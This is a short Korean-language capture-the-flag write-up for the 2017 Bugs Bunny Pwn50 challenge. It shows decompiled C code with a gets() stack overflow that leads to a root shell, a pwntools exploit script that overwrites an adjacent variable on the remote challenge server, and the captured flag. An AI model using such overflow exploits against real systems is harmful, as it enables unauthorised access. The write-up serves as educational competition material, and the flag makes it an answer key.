# 2017 bugsbunny - [PWN] Pwn50

## Key words

- logic bypass

## Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v3; // ebx@5
  __uid_t v4; // eax@5
  char v6; // [sp+10h] [bp-30h]@1
  char v7; // [sp+11h] [bp-2Fh]@2
  char v8; // [sp+12h] [bp-2Eh]@3
  __int64 v9; // [sp+28h] [bp-18h]@1

  v9 = 0LL;
  gets(&v6, argv, envp);
  if ( v6 == 'b' && v7 == 'u' && v8 == 'g' && v9 == 0xDEFACED )
  {
    puts("Cool Stuff :p!");
    v3 = geteuid();
    v4 = geteuid();
    setreuid(v4, v3);
    system("/bin/bash");
  }
  return 0;
}
```

문제 자체는 간단합니다. v6 부터 조건을 만족 시키면 `/bin/bash` 를 제공해줍니다.

한 가지 주의할 점은 v9의 위치가 v6에서 얼마나 떨어져 있는지 잘 확인해야 합니다.

## Exploit Code

```python
from pwn import *
server = "54.67.102.66"
port = 5251

p = remote(server, port)

payload = "b" + "u" + "g" + "a"*0x15 + p64(0xdefaced)

p.sendline(payload)
p.sendline("cat /home/pwn50/flag")
print p.recv()
```

## Result
```
tbkim@ubuntu:~/ctf/pwnable/0012_2017_bugsbunny_pwn50$ python sol_pwn50.py
[+] Opening connection to 54.67.102.66 on port 5251: Done
Bugs_Bunny{lool_cool_stuf_even_its_old!!!!!}

[*] Closed connection to 54.67.102.66 port 5251
```
